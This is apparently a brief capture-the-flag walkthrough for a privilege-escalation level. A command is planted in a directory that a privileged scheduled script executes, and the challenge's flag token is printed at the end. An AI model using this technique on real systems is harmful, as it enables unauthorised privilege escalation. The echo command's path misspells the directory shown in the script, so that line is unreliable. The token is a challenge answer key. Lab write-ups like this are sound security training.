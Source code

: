 

find / -group flag05 -exec ls -la {} \; 2>/dev/null

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

echo "getflag > /tmp/flag" > /opt/openareanserver/flag

watch -x cat /tmp/flag

Check flag.Here is your token : viuaaale9huek52boumoomioc